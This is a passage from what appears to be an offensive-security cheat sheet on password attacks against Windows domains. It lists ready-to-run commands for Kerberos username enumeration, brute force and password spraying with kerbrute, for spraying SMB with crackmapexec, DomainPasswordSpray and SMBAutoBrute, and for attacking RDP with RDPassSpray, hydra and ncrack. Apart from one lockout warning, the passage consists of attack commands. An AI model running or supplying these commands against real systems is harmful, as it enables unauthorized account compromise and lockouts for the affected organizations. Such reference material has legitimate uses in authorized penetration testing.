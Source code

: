 * Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```

#### Spray a pre-generated passwords list

* Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```

#### Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```

#### BadPwdCount attribute
